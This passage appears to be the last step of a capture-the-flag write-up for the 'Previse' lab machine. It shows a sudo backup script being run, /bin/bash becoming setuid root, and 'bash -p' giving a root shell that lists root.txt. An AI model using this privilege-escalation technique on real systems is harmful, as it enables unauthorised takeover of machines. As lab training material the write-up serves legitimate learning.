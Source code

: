 Finally, escalate privileges.
```
m4lwhere@previse:~/scripts$ sudo /opt/scripts/access_backup.sh
m4lwhere@previse:~/scripts$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
m4lwhere@previse:~/scripts$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) egid=0(root) groups=0(root),1000(m4lwhere)
bash-4.4# cd /root     
bash-4.4# ls -l
total 4
-r-------- 1 root root 33 Sep 23 04:31 root.txt
bash-4.4#
```
